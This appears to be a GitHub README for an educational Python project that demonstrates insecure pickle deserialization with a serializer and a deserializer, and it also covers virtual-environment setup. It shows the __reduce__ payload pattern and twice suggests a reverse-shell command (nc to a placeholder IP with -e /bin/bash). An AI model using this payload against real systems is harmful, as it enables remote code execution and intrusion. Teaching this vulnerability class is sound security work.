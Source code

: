 
# **Insecure_Deserialization**

## **Overview**
`Insecure_Deserialization` is a simple Python program designed to demonstrate and explore the concept of insecure deserialization in a hands-on and practical way. The program includes a **serializer** and a **deserializer** to showcase how serialized objects can be manipulated and executed.

This program is primarily for educational purposes, aiming to provide insights into the risks and potential exploitation of insecure deserialization. Additionally, it can be adapted to execute a reverse shell by replacing the default command (`whoami`) with something like `nc <ip> <port> -e /bin/bash`.


## **Features**
- **Serialization (`serializer.py`)**:
  - Encodes an object containing a malicious payload into a serialized format.
  - Outputs the serialized payload in Base64 format.

- **Deserialization (`deserializer.py`)**:
  - Decodes and executes the serialized payload.

- **Custom Commands**:
  - Modify the default `whoami` command in the serializer to execute custom shell commands or even establish a reverse shell.


## **Usage**
### **1. Serialization**
Run the `serializer.py` script to generate a malicious payload:

```
python serializer.py
```

### **2. Deserialization**
Copy the serialized Base64 string and run the `deserializer.py` script. Paste the string as input when prompted:

```
python deserializer.py
```

## **Modifying the Payload**
The default payload executes the `whoami` command. To change the command:

1. Open `serializer.py`.
2. Modify the `return (os.system, ("whoami",))` line in the `Evil` class:
   
   ```
   return (os.system, ("<your_command>",))
   ```
3. For a reverse shell, you can use:
   
   ```
   return (os.system, ("nc <ip> <port> -e /bin/bash",))
   ```

## Example of use via terminal in kali linux (in this case, without venv):

<div align="center">
  <img src="https://github.com/user-attachments/assets/fda334c0-a684-496f-8185-c6ea203e89fc" width="300">
</div>


## **Warnings**
- **Educational Purposes Only**: This program is intended to teach the concept of insecure deserialization and should not be used for malicious purposes.
- **Security Risks**: The deserialization of untrusted data is a critical security risk. Avoid using insecure serialization methods like `pickle` in production applications.
- **Test Environment**: Always use this program in a controlled and isolated environment, such as a virtual machine or sandbox.


## **How It Works**
1. The **`Evil` class** in `serializer.py` uses the `__reduce__` method to define a malicious command.
2. The `pickle.dumps` function serializes the `Evil` object.
3. The serialized payload is Base64-encoded and displayed.
4. In `deserializer.py`, the Base64-encoded payload is decoded and deserialized using `pickle.loads`, triggering the execution of the malicious command.


## **Disclaimer**
This program is for educational and testing purposes only. The author is not responsible for any misuse of this code.


## **Setting Up the Environment**

To ensure compatibility and proper setup, it is recommended to use a virtual environment (**venv**). Follow the steps below to create and activate your own virtual environment:

### **1. Create a Virtual Environment**
Run the following command to create a virtual environment in the project directory:

```
python -m venv venv
```

### **2. Activate the Virtual Environment**
Activate the virtual environment based on your operating system:

- **On Windows**:
  ```
  venv\Scripts\activate
  ```
- **On Linux/MacOS**:
  ```
  source venv/bin/activate
  ```

### **3. Deactivate the Virtual Environment**
When you're done working on the project, deactivate the virtual environment by running:

```bash
deactivate
```

---

### **Note on Virtual Environments**
The virtual environment (**venv**) is not included in this repository to reduce its size and avoid compatibility issues across different operating systems. Instead, you can generate it locally by following the steps above. 
